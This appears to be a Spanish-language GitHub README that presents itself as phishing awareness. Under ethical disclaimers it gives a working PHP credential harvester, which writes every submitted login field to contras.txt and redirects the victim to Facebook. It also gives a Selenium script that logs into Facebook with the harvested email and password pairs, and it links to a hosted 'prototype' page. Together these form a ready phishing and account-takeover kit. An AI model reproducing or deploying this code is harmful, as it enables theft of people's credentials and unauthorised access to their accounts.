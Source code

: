 ## Phishing y Automatización de Formularios
Este README proporciona información sobre el phishing y cómo el ejemplo anterior de automatización de formularios puede considerarse un ejemplo de phishing. El phishing es una práctica engañosa y potencialmente dañina que se utiliza para obtener información confidencial de manera fraudulenta.

## ¿Qué es el Phishing?
Phishing es una forma de ciberataque en la que un atacante se hace pasar por una entidad de confianza (como un banco, una red social o una empresa legítima) para engañar a las personas y obtener información confidencial, como contraseñas, números de tarjetas de crédito y otra información personal. El objetivo del phishing es obtener acceso no autorizado a cuentas, robar identidades o cometer otros tipos de fraude.

Los ataques de phishing a menudo implican el envío de correos electrónicos o la creación de sitios web falsos que se parecen mucho a los originales. Los estafadores utilizan tácticas de ingeniería social para engañar a las víctimas y hacer que divulguen información sensible.

## Automatización de Formularios y Phishing
El ejemplo de código anterior muestra cómo se puede utilizar la automatización de formularios con Selenium para ingresar credenciales en un formulario de inicio de sesión en una página web. Aunque el código es presentado aquí con fines educativos y éticos, es importante destacar que la misma técnica de automatización de formularios puede ser utilizada con fines maliciosos y considerarse una forma de phishing si se realiza sin el consentimiento y la autorización adecuados.

Algunas de las características comunes que pueden convertir la automatización de formularios en un acto de phishing incluyen:

##3 Engaño:  El atacante puede engañar a las víctimas para que compartan sus credenciales al hacerles creer que están interactuando con un sitio web legítimo.

Recopilación de Datos Sensibles: La automatización de formularios puede utilizarse para recopilar datos confidenciales, como contraseñas, números de tarjeta de crédito o información personal, sin el consentimiento del usuario.

Suplantación de Identidad: Al utilizar la automatización de formularios, un atacante puede suplantar la identidad de una entidad de confianza para robar información.

### Nota Importante 
Este README se proporciona para crear conciencia sobre el phishing y destacar cómo la automatización de formularios puede considerarse una forma de phishing si se usa con intenciones maliciosas. Se enfatiza la importancia de realizar actividades de seguridad de manera ética y legal, y de respetar las políticas y leyes aplicables.

El phishing es ilegal y dañino. No debe ser utilizado con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables al realizar pruebas de seguridad en sistemas y sitios web.

Asegúrate de cumplir con todas las leyes y regulaciones aplicables y de respetar las políticas de seguridad del sitio web al realizar actividades de automatización de formularios.

#Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/

